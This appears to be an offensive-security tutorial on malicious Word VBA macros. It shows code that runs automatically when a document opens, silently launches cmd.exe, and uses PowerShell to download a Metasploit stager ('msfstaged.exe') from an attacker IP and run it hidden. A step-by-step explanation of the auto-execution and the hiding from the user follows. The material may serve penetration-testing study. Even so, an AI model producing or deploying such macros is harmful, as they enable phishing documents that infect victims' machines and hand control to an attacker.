    ```
        Sub Document_Open()
            MyMacro
        End Sub

        Sub AutoOpen()
            MyMacro
        End Sub

        Sub MyMacro()
            Dim str As String
            str = "cmd.exe"
            CreateObject("Wscript.Shell").Run str, 0
        End Sub
   ```

## Powershell with Macros

Code:

    Sub Document_Open()
        MyMacro
    End Sub

    Sub AutoOpen()
        MyMacro
    End Sub

    Sub MyMacro()
        Dim str As String
        str = "powershell (New-Object
        System.Net.WebClient).DownloadFile('http://<ip>/msfstaged.exe','msfstaged.exe')"
        Shell str, vbHide
        Dim exePath As String
        exePath = ActiveDocument.Path + "\msfstaged.exe"
        Wait (2)
        Shell exePath, vbHide
    End Sub

    Sub Wait(n As Long)
        Dim t As Date
        t = Now
        Do
            DoEvents
        Loop Until Now >= DateAdd("s", n, t)
    End Sub

&nbsp;

Explanation:

1. We first write the macro functions to auto execute macro on opening the word file. (Document_Open and AutoOpen functions)
2. We initialize a variable called "str" with the string datatype
3. A powershell payload to download a dropper is assigned to the variable.
4. The variable "str" is executed in the shell with the Shell function of VBA and the windows style is set to 0 using vbHide to hide the process from the user.
5. The path of the downloaded file is then fetched using ActiveDocument.Path and the file name is concatenated to this.
6. The complete path of the downloaded file is stored in a variable.
7. The variable is executed in the shell with the Shell function of VBA and the windows style is set to 0 using vbHide to hide the process from the user.
8. The Wait() function acts as a sleep command, it takes the number of seconds as it's argument. It then fetches the current time and adds the inputted wait time. It then waits for the current time to be greater than the previous calculated sum. This acts as a sleep function in VBA.
